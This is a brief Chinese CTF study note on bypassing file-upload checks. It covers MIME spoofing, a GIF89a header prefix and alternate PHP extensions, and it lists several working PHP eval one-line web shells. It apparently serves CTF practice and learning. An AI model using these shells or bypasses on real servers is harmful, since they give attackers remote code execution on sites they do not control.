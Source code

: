 ```yaml
---
tags:
  - ctf
  - web
create_time: 2024-07-01 11:07
modified_time: 2024-07-01 11:07
status: todo
---
```

文件上传
 - 前端绕过: 不满足其验证条件，进行绕过
 - 后端绕过: 满足其验证条件，进行绕过
   - 文件类型（MIME）: Content-Type: image/jpeg
   - 文件头部: GIF89a<?=eval($_POST[1]);?>
   - 文件内容: 
      - <?php eval($_POST[1]);?>
      - <?=eval($_POST[1]);?>
      - <script language="php">eval($_POST[1]);</script>   //仅限php5
   - 文件后缀: php pHp phP phtml pht
- 